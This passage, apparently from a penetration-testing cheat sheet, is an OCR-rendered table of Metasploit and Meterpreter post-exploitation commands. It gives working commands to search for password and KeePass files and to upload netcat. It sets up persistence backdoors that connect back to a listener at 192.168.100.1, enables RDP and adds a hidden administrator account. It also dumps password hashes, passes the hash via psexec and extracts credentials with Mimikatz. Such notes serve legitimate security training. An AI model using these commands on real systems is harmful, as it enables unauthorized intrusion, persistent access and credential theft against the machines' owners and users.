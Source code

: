 | search -f *pass*.txt`                                        |                                                              |
| search -d C:\\Users\\els\\ -f  *.kdbx                        | -d= path -f= file pattern                                    |
| Upload a file                                                |                                                              |
| upload  /usr/share/windows-binaries/nc.exe c:\\Users\\Offsec` |                                                              |
| Download a file                                              |                                                              |
| download  c:\\Windows\\system32\\calc.exe /tmp/calc.exe`     |                                                              |
|                                                              |                                                              |
| Persistence [backdoor, new account, password hash,  software] |                                                              |
| run persistence -h -> post/windows/manage/persistence_exe    |                                                              |
| run persistence -A -X -p 5555  -r 192.168.100.1              |                                                              |
| run  persistence -A -U -i 20 -p 80 -r 192.168.100.1 -> start exploit/multi/handler to listen |                                                              |
| Veil-evasion + metasploit                                    |                                                              |
| use  exploit/windows/local/persistence -> show advanced -> set EXE::Custom  /var/www/ |                                                              |
|                                                              |                                                              |
| Enable RDP                                                   |                                                              |
| net start                                                    |                                                              |
| wmic  service where 'Caption like "Remote%" and started=true' get Caption |                                                              |
|                                                              |                                                              |
| With Meterpreter                                             |                                                              |
| run service_manager -l or   run post/windows/gather/enum_services | use meterpreter scripts to check services                    |
| run getgui -e                                                | Meterpreter post  payload to enable RDP                      |
|                                                              |                                                              |
| Add user                                                     |                                                              |
| net user EveUser EvePass /add                                |                                                              |
| net localgroup  "Administrators" EveUser /add                |                                                              |
| net localgroup "Remote  Desktop Users" EveUser /add etc etc  |                                                              |
|                                                              |                                                              |
| Hashdump                                                     |                                                              |
| hashdump on windows                                          | To bypass this error you have two options: 1) execute run  hashdump or 2) migrate to a different process. |
| run post/linux/gather/hashdump                               |                                                              |
| Example pass the hash                                        | only works if we use an administrator account on the current meterpreter session |
| ms08-067  -> hashdump -> use auxiliary/scanner/smb/psexec_scanner |                                                              |
| use exploit/windows/smb/psexec                               |                                                              |
|                                                              |                                                              |
| Mimikatz                                                     | it is important to have the current meterpreter session  running on a 64-bit process |
| extract plaintexts passwords,  hash, PIN code and kerberos   |                                                              |
| tickets from memory. mimikatz  can also perform              |                                                              |